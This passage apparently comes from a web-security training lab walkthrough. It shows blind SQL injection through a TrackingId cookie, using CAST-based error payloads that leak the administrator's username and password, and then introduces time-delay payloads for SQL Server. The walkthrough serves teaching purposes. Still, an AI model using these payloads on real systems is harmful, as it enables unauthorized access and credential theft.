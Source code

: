     `TrackingId=ogAZZfxtOKUELbuJ' AND CAST((SELECT 1) AS int)--`
8. Send the request. Observe that you now get a different error saying that an `AND` condition must be a boolean expression.
9. Modify the condition accordingly. For example, you can simply add a comparison operator (`=`) as follows:
    
    `TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT 1) AS int)--`
10. Send the request. Confirm that you no longer receive an error. This suggests that this is a valid query again.
11. Adapt your generic `SELECT` statement so that it retrieves usernames from the database:
    
    `TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT username FROM users) AS int)--`
12. Observe that you receive the initial error message again. Notice that your query now appears to be truncated due to a character limit. As a result, the comment characters you added to fix up the query aren't included.
13. Delete the original value of the `TrackingId` cookie to free up some additional characters. Resend the request.
    
    `TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)--`
14. Notice that you receive a new error message, which appears to be generated by the database. This suggests that the query was run properly, but you're still getting an error because it unexpectedly returned more than one row.
15. Modify the query to return only one row:
    
    `TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--`
16. Send the request. Observe that the error message now leaks the first username from the `users` table:
    
    `ERROR: invalid input syntax for type integer: "administrator"`
17. Now that you know that the `administrator` is the first user in the table, modify the query once again to leak their password:
    
    `TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--`
18. Log in as `administrator` using the stolen password to solve the lab.

## Exploiting blind SQL injection by triggering time delays

If the application catches database errors when the SQL query is executed and handles them gracefully, there won't be any difference in the application's response. This means the previous technique for inducing conditional errors will not work.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering time delays depending on whether an injected condition is true or false. As SQL queries are normally processed synchronously by the application, delaying the execution of a SQL query also delays the HTTP response. This allows you to determine the truth of the injected condition based on the time taken to receive the HTTP response.

The techniques for triggering a time delay are specific to the type of database being used. For example, on Microsoft SQL Server, you can use the following to test a condition and trigger a delay depending on whether the expression is true:

```sql
'; IF (1=2) WAITFOR DELAY '0:0:10'-- 
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```
